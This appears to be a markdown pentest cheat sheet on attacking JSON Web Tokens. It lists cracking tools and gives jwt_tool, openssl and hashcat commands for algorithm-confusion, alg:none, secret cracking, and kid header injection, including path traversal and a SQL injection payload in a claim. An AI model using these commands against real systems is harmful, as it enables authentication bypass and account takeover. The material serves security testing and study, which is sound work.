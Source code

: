 # Tools

- [JWT.io](https://jwt.io/) - Debugging and testing JWT
- [JWK Set Generator](https://mkjwk.org/) - Generate JWK Sets
- [JWT Decoder](https://jwt.io/tools?tab=decode) - Decode JWT
- [GitHub — ticarpi/jwt_tool: A toolkit for testing, tweaking and cracking JSON Web Tokens](https://github.com/ticarpi/jwt_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens
- [GitHub — hahwul/jwt-hack: 🔩 jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)](https://github.com/hahwul/jwt-hack) - 🔩 jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)
- [GitHub — mazen160/jwt-pwn: Security Testing Scripts for JWT](https://github.com/mazen160/jwt-pwn) - Security Testing Scripts for JWT 
- [GitHub — brendan-rius/c-jwt-cracker: JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker) - JWT brute force cracker written in C
- [GitHub — jmaxxz/jwtbrute: Brute forcing jwt tokens signed with HS256 since 2014](https://github.com/jmaxxz/jwtbrute) - Brute forcing jwt tokens signed with HS256 since 2014
- [GitHub — Sjord/jwtcrack: Crack the shared secret of a HS256-signed JWT](https://github.com/Sjord/jwtcrack) - Crack the shared secret of a HS256-signed JWT
- [JSON Web Tokens](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) - Burp extension to decode JWT
- [JSON Web Token Attacker](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) - Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources 
- [GitHub — wallarm/jwt-heartbreaker: The Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources](https://github.com/wallarm/jwt-heartbreaker) - The Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources 
-  [JWTweak](https://rishuranjanofficial.github.io/JWTweak/) - JWT Tweak Tool 
- [jwt_tool](https://github.com/ticarpi/jwt_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens 



## jwt_tool Commands:

- `jwt_tool -d <jwt_token>` - Decode JWT
- `jwt_tool -e <jwt_token>` - Encode JWT
- `jwt_tool -t <jwt_token>` - Test JWT
- `jwt_tool -p <jwt_token>` - Print JWT
- `jwt_tool <JWT_Token> -C -d passwordList.txt` 
- `jwt_tool <JWT_Token> -X n` 
- `jwt_tool <JWT_Token> -X a` 
- `jwt_tool <JWT_Token> -X b` 
- `jwt_tool -t http://example.com -rh “Authorization: Bearer <JWT_Token>” -M pb` 
- `jwt_tool <JWT_Token> -X k -pk < public-key-pem >` 
- `jwt_tool -h` 

![alt text](image.png)



## Change Algorithm from RS256 to HS256:
- Get the Public key from the application (e.g., pubkey.pem file) using the following commands:
`openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem`
`openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem`    

or 
`oopenssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout`

commnad: `python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem`


## Crack the Secret Key:
`hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force`

`hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show   # to display the cracked secret key`

## Attacks Using kid in JWT Token
`python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`
`python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"`
`python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem`




#### References:
- [write-up](https://medium.com/@0x_xnum/all-about-jwt-vulnerabilities-ef7314c4dd02) - All about JWT Vulnerabilities
- 







